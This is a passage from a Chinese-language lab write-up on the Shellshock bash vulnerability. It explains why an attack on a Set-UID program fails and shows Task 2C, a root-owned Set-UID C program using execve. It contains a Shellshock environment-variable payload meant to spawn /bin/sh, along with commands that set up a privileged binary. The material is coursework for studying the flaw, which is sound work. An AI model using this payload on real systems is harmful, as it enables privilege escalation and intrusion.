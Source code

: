 去除后攻击失败，不能获得bash。

```
gcc b.c -o b
sudo chown root b
sudo chmod 4755 b
./b
```

![image-20220326112144741](ShellShock/image-20220326112144741.png)

因为源码中对privemode 进行了比较，在这里真实的id 是 seed，而有效用户 id 是 root，因此 bash 不会执行从环境变量出获得的函数定义。

execve函数是加载一个程序，而这个程序尽管只用原先的环境变量但是由于并没有使用sh去解析该命令，并没有触发bash的漏洞。

### 任务 2C

> 在 C 中调用程序的另一种方法是使用 execve（），而不是 system（）。 以下程序所做的与任务 2A 中的程序完全相同。请编译代码，并使其成为root拥有的Set-UID程序。 在这个新程序上发起你的Shellshock攻击。

使用 execve()函数，而不是 system 函数()的c.c文件

```C
#include <string.h>
#include <stdio.h>
#include <stdlib.h>
char **environ;
int main()
{
    char *argv[3];
    argv[0] = "/bin/ls";
    argv[1] = "-l";
    argv[2] = NULL;
    setuid(geteuid()); // make real uid = effective uid.
    execve(argv[0], argv, environ);
    return 0;
}
```

编译设置程序

```bash
gcc c.c -o c
sudo chown root c
sudo chmod 4755 c
export att='() { echo hello; }; /bin/sh'

./c
```
